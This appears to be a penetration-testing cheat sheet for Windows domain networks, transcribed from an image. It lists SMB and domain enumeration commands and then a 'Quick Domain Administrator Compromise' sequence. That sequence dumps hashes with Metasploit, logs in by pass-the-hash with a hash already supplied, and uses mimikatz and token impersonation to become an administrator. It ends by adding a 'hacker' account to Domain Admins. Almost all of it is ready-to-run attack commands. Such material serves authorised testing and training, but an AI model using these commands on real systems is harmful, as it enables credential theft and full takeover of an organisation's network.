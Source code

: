 ```text

enum4linux

RID cycling
use auxiliary/scanner/smb/smb_lookupsid
ridenum

Net Users
net users /domain

Null session in windows
net use \\192.168.0.1\IPC$ "" /u:""

Null session in linux
smbclient -L //192.168.99.131

nbtscan
nbtscan -r 10.0.2.0/24

Sharepoint User Profile Page
Find SharePoint servers with nmap, Nessus etc.

Net Accounts - Obtain Password Policy
net accounts


[+] Internal Infrastructure Testing - Quick Domain Administrator Compromise

Compromise machine via missing Microsoft patch, weak credentials or credentials found via Responder.

From Shell - net group "Domain Admins" /domain

Dump the hashes (Metasploit)
msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE

Find the admins (Metasploit)
spool /tmp/enumdomainusers.txt
msf > use auxiliary/scanner/smb/smb_enumusers_domain
msf > set smbuser Administrator
msf > set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf > set rhosts 10.10.10.0/24
msf > set threads 8
msf > run
msf> spool off

Compromise the administrator's machine
meterpreter > load mimikatz
meterpreter > wdigest

or

meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token MYDOM\\adaministrator
meterpreter > getuid
meterpreter > shell

C:\> whoami
mydom\adaministrator
C:\> net user hacker /add /domain
C:\> net group "Domain Admins" hacker /add /domain

```